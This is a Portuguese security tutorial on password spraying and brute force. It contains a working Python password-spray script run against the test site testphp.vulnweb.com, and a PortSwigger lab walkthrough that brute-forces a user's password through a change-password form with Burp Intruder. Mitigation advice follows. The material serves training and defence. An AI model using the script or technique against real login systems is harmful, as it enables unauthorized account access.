








<div class="page"/>

# **Password Attack Part 1 | Sonael de A. Angelos Neto**

- ### **Brute Force**

  Os ataques brute force consistem em tentativas consecutivas de adivinhar uma senha ou combinação de senha através de uma tentativa de força bruta de todas as possíveis combinações. Esse tipo de ataque pode levar muito tempo, mas é eficaz se a senha for fraca.

- ### **Password Spray**

  O password spray é uma técnica de ataque que consiste em tentar acessar uma grande quantidade de contas com a mesma senha fraca, ao invés de tentar adivinhar uma senha única. Esse método é mais eficaz em grandes organizações, onde é provável que algumas pessoas tenham configurado senhas fracas.

- ### **Qual a diferença entre eles?**

  A principal diferença entre os ataques brute force e password spray é a abordagem. O ataque brute force tenta adivinhar uma senha específica, testando todas as combinações possíveis até encontrar a correta. Já o password spray tenta acessar muitas contas com a mesma senha fraca, com o objetivo de obter acesso a pelo menos uma dessas contas.

  Em outras palavras, o ataque brute force é mais direcionado e pode levar muito tempo para ser concluído, enquanto o password spray é mais amplo e rápido, mas também menos eficaz em comparação.

---

## **<center>Sumário</center>**

  Nesse documento, iremos ver formas de explorar vulnerabilidades em logins através de `"Password Attack"`.

  1. #### ***<a href="#1">Tool password spray.</a>***
  2. #### ***<a href="#2">Password brute-force via password change.</a>***

### **Complementos:**

   3. #### ***<a href="#3">Mitigação.</a>***
   4. #### ***<a href="#4">Dificuldades.</a>***
   5. #### ***<a href="#5">Conclusão.</a>***
   6. #### ***<a href="#6">Referências.</a>***
   7. #### ***<a href="#7">Links p/ Laboratórios.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

- #### [Python](https://www.python.org) :
    - Utilizaremos o `python` para criar o script.

---

## **<a id="1"> • Tool password spray.</a>**

Nesse tópico, iremos criar uma ferramenta para realizar um `password spray` no site `http://testphp.vulnweb.com/`.

Para isso, primeiramente iremos interceptar a requisição de login e analisar o que está sendo enviado para o back-end quando realizamos o login.

```
POST /userinfo.php HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://testphp.vulnweb.com
Connection: close
Referer: http://testphp.vulnweb.com/login.php
Upgrade-Insecure-Requests: 1

uname=sonael&pass=neto
```

Podemos ver que o site está enviando os dados de login através de um `POST` para a página `userinfo.php` com os parâmetros `uname` e `pass`.

<div class="page"/>

Com essas informações podemos criar um script em python que irá realizar várias requisições com diferentes combinações de usuários.

```python
#Made by Sonael Neto

import getopt, sys, requests

argumentList = sys.argv[1:]

options = "p:u:hU:d:"

long_options = ["password", "users", "help", "url", "data"]

headers = {'Content-Type': 'application/x-www-form-urlencoded'}

try:
    # Parsing argument
    arguments, values = getopt.getopt(argumentList, options, long_options)
    # checking each argument
    for currentArgument, currentValue in arguments:
        if currentArgument in ("-p", "--password"):
            password = currentValue
        elif currentArgument in ("-U", "--url"):
            url = currentValue
        elif currentArgument in ("-d", "--data"):
            data = currentValue
        elif currentArgument in ("-u", "--users"):
            file = open(currentValue, "r")
        elif currentArgument in ("-h", "--help"):
            print('Usage: python3 password_spray.py -p "password" -u users.txt -U "url" -d "uname=USERS&pass=PASS"')

except getopt.error as err:
    # output error, and return with an error code
    print (str(err))


try:
    users = []
    for user in file:
        r = requests.post(url, data=data.replace("USERS", user).replace("PASS", password), headers=headers)

        if r.status_code == 200:
            users.append(user.strip())

    print("Usuários encontrados: " + str(users))
except:
    exit(0)
```

O script irá receber como parâmetro um arquivo com os usuários, a senha, a url que será realizada a requisição e os dados que serão utilizados na requisição, com isso ele irá realizar uma requisição para cada usuário com a senha informada. Caso as credencias existam, o site irá retornar um `status code 200` e o script irá adicionar o usuário na lista de usuários encontrados.

Agora vamos utilizar o script através do comando.

```bash
python password_spray.py -p "test" -u text.txt -U "http://testphp.vulnweb.com/userinfo.php" -d "uname=USERS&pass=PASS"
```

O comando acima utiliza a senha `test`, uma wordlist com os usuários `text.txt` e iremos realizar a requisição para a url `http://testphp.vulnweb.com/userinfo.php` com os dados `uname=USERS&pass=PASS` onde o script irá substituir o `USERS` pelo usuário e o `PASS` pela senha.



Podemos ver que o script encontrou o usuário `test`.

---

<div class="page"/>

## **<a id="2"> • Password brute-force via password change.</a>**

Nesse laboratório vamos aprender a fazer um brute-force na senha de um usuário através da página de alteração de senha.

ao logar com o usuário `wiener` e a senha `peter`, podemos ver que temos uma página de alteração de senha.



ao tentar alterar a senha percebe-se um comportamento estranho, pois ao colocar a senha certa no campo `Current password` e em `new password` e `confirm new password` colocar senhas diferentes, a aplicação mostra uma mensagem especifica para aquela combinação de senhas.



E é através dessa mensagem **New passwords do not match** que vamos fazer o brute-force na senha do usuário `carlos`.

Vamos usar o `intruder` do **Burp Suit** para enviar a requisição e alterar o parâmetro `current password` para uma lista de senhas que o laboratório nos fornece.

```http

POST /my-account/change-password HTTP/1.1
Host: 0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Cookie: session=yKqzNle7KN7rOq3j47YyzoZeWdj7s7db; session=HkVFVOoMwGCt8VGpwFt171avoKvvyofC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net
Referer: https://0a6400d703a3c22ec2f0c53b00640052.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=carlos&current-password=§sonael§&new-password-1=sonael&new-password-2=neto

```

Aqui podemos ver que o parâmetro `current-password` foi alterado para `§sonael§` e o parâmetro `username` foi alterado para `carlos` para que o brute-force seja feito na senha do usuário `carlos`.

Também devemos adicionar ao `Grep - March` do intruder a flag `New passwords do not match` para que o intruder avise quando a senha estiver correta.



<div class="page"/>

Agora vamos executar o brute-force e ver qual senha está correta.



Agora podemos logar com o usuário `carlos` e a senha `555555`.



E assim finalizamos o laboratório.



---

## **<a id="3">• Mitigação.</a>**

***Algumas formas de mitigar as vulnerabilidades de ataques brute force e password spray são:***

### ***Lado do desenvolvedor | Empresa:***

- **Validação de senhas fortes**: Implementação de requisitos para senhas fortes, como tamanho mínimo, combinação de caracteres, etc., para reduzir o risco de uso de senhas fracas.

- **Limitação de tentativas de login**: Implementar um sistema para limitar o número de tentativas de login e bloquear temporariamente uma conta após um determinado número de tentativas falhadas.

- **Autenticação de vários fatores (MFA)**: Implemente autenticação de dois fatores (2FA) ou multi-factor authentication (MFA) para adicionar uma camada extra de segurança.

- **Hash de senhas**: armazene senhas com segurança usando uma função hash segura, como bcrypt, scrypt ou Argon2.

- **Monitoramento de atividades**: Implemente um sistema para monitorar tentativas de login e detectar padrões de atividades suspeitas, como tentativas repetidas de login com falha no mesmo endereço IP.

- **Atualizações de software**: Mantenha o software atualizado para garantir que quaisquer vulnerabilidades de segurança conhecidas sejam corrigidas.

- **Treinamento de segurança**: Forneça treinamento de segurança regular para os funcionários para ajudá-los a entender a importância de senhas fortes e como identificar e relatar possíveis ameaças à segurança.


### ***Lado do Usuário:***

- **Senhas fortes:** Use senhas seguras e únicas para cada conta, evitando palavras comuns e combinações fáceis de serem adivinhadas.

- **Autenticação de vários fatores (MFA):** Se disponível, utilize a autenticação de vários fatores (MFA) para adicionar uma camada extra de segurança.

- **Atualização de software:** Mantenha seu software e dispositivos atualizados com as últimas correções de segurança.

- **Cuidado ao clicar em links:** Seja cauteloso ao clicar em links ou anexos de e-mails suspeitos, pois eles podem ser uma forma de invadir seu sistema.

- **Backup de dados:** Faça backup regulares de seus dados importantes para minimizar a perda em caso de invasão.

- **Treinamento de segurança:** Mantenha-se informado sobre as boas práticas de segurança e aprenda a reconhecer e evitar ameaças de segurança.

Essas são apenas algumas das formas de mitigar vulnerabilidades a ataques brute force e password spray. É importante adotar uma abordagem abrangente e integrada de segurança para proteger suas informações sensíveis

---


## **<a id="4">• Dificuldades.</a>**

*Nenhuma dificuldade relevante.* 

---

## **<a id="5">• Conclusão.</a>**

Em conclusão, ataques **brute force** e **password spray** são duas ameaças à segurança que visam descobrir senhas fracas ou usadas em múltiplas contas. Ambos os ataques podem resultar em invasões de privacidade, perda de informações sensíveis e outros danos. Para mitigar essas vulnerabilidades, é importante abordar o assunto de segurança de forma abrangente, envolvendo tanto desenvolvedores quanto empresas e usuários finais. Desenvolvedores e empresas devem implementar medidas de segurança robustas, como validação de senhas fortes, limites de tentativas de login, autenticação de vários fatores (MFA) e monitoramento de atividades. Por sua vez, usuários devem tomar medidas para proteger suas informações, incluindo o uso de senhas seguras, atualização de software, cuidado ao clicar em links e treinamento de segurança. Ao trabalhar juntos, podemos minimizar o risco de ataques brute force e password spray e manter nossas informações seguras.

---

## **<a id="6">• Referências.</a>**

- [w3schools - Python Requests Module](https://www.w3schools.com/python/module_requests.asp)

- [Owasp - Password Spraying Attack](https://owasp.org/www-community/attacks/Password_Spraying_Attack)

- [welivesecurity - Ataque de password spraying: poucas senhas para muitos usuários](https://www.welivesecurity.com/br/2021/11/30/ataque-de-password-spraying-poucas-senhas-para-muitos-usuarios/)

- [ChatGPT](https://chat.openai.com/chat)


---

## **<a id="7">• Laboratórios.</a>**

  1. [Password brute-force via password change](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change)
